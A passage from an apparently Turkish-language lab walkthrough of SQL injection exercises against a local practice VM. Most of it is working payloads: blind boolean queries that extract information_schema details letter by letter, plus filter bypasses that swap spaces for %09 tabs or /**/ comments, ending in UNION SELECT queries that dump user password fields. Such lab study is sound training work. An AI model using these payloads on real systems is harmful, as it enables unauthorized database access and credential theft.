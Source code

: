 CHARACTER_SETS tablosundaki ilk column un ilk harfi 

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select column_name from information_schema.columns where table_name = 'CHARACTER_SETS' limit 0,1),2,1)) = 67 %23

CHARACTER_SETS tablosundaki ilk column un ikinci harfi

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select column_name from information_schema.columns where table_name = 'CHARACTER_SETS' limit 1,1),1,1)) = 67 %23

CHARACTER_SETS tablosundaki ikinci column un ilk harfi

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select CHARACTER_SET_NAME from information_schema.CHARACTER_SETS limit 0,1),1,1)) = 98 %23

CHARACTER_SETS tablosundaki CHARACTER_SET_NAME column unun ilk elemanının ilk harfini getiriyor burada dikkat etmemiz gereken nokta tablo ismini verirken database.tablo_ismi şeklinde vermemiz gerekir çünki burada database seçili değildir.

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select count(*) from information_schema.schemata),1,1)) = 50 %23

Kaç adet veri tabanı olduğunu öğrenmek için kullanılacak sorgu

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select count(*) from information_schema.tables where table_schema = 'exercises'),1,1)) = 49 %23

exercises veri tabanında kaç adet tablo olduğunu öğrenmek için kullanılacak sorgu

> http://192.168.56.101/sqli/example1.php?name=root' and ascii(substring((select count(*) from information_schema.columns where table_name = 'users'),1,1)) = 53 %23

users tablosunda kaç adet column(sütun) olduğunu öğrenmek için kullanacağımız sorgu.



#### Example 2

`http://192.168.56.101/sqli/example2.php?name=root' or 1 = 1 %23` şeklinde bir sorgu denediğimizde **ERROR NO SPACE** şeklinde bir hata ile karşılaşıyoruz burada yazılımcı boşluk karakterini kullanmamıza izin vermemiş yani **URL** de **%20** (boşluk karakterinin encode hali) ile karşılaşırsa hata vermesini söylemiş bizde tab ifadesinin encode hali olan **%09** ifadesini sorgularımızın içine yerleştireceğiz ve bu filtreyi atlatacağız.

`http://192.168.56.101/sqli/example2.php?name=root'%09or%091%09=%091%09%23`

Diğer verileri ele geçirmek için yukarıdaki yöntemin aynısı geçerli fakat boşluk (%20) olan yerleri %09 (tab) ile değiştirmemiz gerekiyor. 

`http://192.168.56.101/sqli/example2.phpname=root'%09or%091%09=%091%09union%09select%09group_concat(id,":",name,":",age,":",groupid,":",passwd),2,3,4,5%09from%09users%09%23`

#### Example 3

Bu aşama bir önceki aşama ile aynı bu sefer **%09** ilede atlatamıyoruz hatayı bizde yorum satırı için kullanılan **/***  ***\** karakterlerini kullanarak sorgularımızın arasında boşluklar bırakacağız.

`http://192.168.56.101/sqli/example3.php?name=root'/**/or/**/1/**/=/**/1/**/%23`

`http://192.168.56.101/sqli/example3.phpname=root'/**/or/**/1/**/=/**/1/**/union/**/select/**/group_concat(id,":",name,":",age,":",groupid,":",passwd),2,3,4,5/**/from/**/users/**/%23`
